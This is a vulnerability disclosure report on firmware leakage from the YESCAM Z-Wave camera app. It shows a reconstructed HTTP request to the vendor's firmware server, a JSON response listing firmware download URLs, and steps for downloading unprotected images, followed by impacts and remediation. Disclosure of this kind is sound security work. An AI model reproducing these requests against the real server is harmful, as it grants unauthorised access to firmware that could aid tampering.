 # Vulnerability Report - com.yescam.YesCam.zwave- Incorrect Access Control

**Product:** `com.yescam.YesCam.zwave` 

**Vendor:** [YESCAM](https://www.asmag.com.tw/)

**Version:** 1.0.2

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.yescam.YesCam.zwave` , developed by **YESCAM**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTP requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `Auto_upgrade_url` Field value in the `CameraList` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003201920434](https://s2.loli.net/2024/10/03/MUz7hGrkoDT3dwt.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET http://str.flirservices.com/versions.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: str.flirservices.com
   Content-Length: 0
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Connection: close
   Content-Length: 868
   Content-Type: application/json
   Date: Thu, 03 Oct 2024 12:18:54 GMT
   Etag: "3655eca77c83591851e0abd87e92f2bb"
   Last-Modified: Tue, 06 Feb 2018 09:52:17 GMT
   Server: AmazonS3
   X-Amz-Id-2: IvqGCITnfB7EoLJ9mTR6U03aoOxVsrccbXu9aY60hoasmxmtXRt1Mk/fLHuy11CHBqNReG0pgfM=
   X-Amz-Request-Id: VS1MJ1WJQK7K6083
   
   {
     "vendor": "starvidia",
     "products": [
       {
         "model": "LNC104",
         "version": "030605",
         "url": "http://str.flirservices.com/LNC104/LNC104_20150624_030699.bin",
         "md5": "",
         "type": "regular",
         "source": "*"
       },
       {
         "model": "LNC204",
         "version": "030605",
         "url": "http://str.flirservices.com/LNC204/LNC204_20150624_030699.bin",
         "md5": "",
         "type": "regular",
         "source": "*"
       },
   ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003202136455](https://s2.loli.net/2024/10/03/Z7zf8Bb1wk4CTty.png)
   
   In total, we successfully downloaded **4 firmware** by exploiting the vulnerability.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.